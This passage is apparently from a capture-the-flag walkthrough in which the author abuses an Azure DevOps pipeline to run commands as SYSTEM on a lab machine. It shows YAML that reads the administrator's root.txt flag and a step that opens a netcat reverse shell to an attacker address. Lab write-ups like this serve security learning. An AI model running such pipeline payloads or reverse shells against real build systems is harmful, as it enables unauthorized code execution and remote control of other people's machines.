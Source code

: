 ![image-20200823064131923](https://0xdfimages.gitlab.io/img/image-20200823064131923.png)

My input defined two steps, “Run a one-line script” and “Run a multi-line script”, and they are both there. Clicking on Run a one-line script shows the results:

[![image-20200823064458383](https://0xdfimages.gitlab.io/img/image-20200823064458383.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20200823064458383.png)

On line 14 is the output of the script. Clicking Next task shows similar output for the second stage, Run a multi-line script:

[![image-20200823064559895](https://0xdfimages.gitlab.io/img/image-20200823064559895.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20200823064559895.png)

The two `echo` statements are executed.

### Read root.txt

The next thing I want to do is determine which user is running the scripts. I’ll cheat a bit and also attempt to read `root.txt`:

```

trigger:
- master

pool: 'Setup'

steps:
- script: |
    whoami
    type c:\users\administrator\desktop\root.txt
  displayName: 'Pwn all the things'

```

The results show that it runs as nt authority\system! And it returns the flag:

[![image-20200823065122408](https://0xdfimages.gitlab.io/img/image-20200823065122408.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20200823065122408.png)

### Shell

Of course I want a shell, so I’ll create another pipeline:

```

trigger:
- master

pool: 'Setup'

steps:
- script: c:\programdata\nc.exe -e cmd 10.10.14.24 443
  displayName: 'shellz'

```
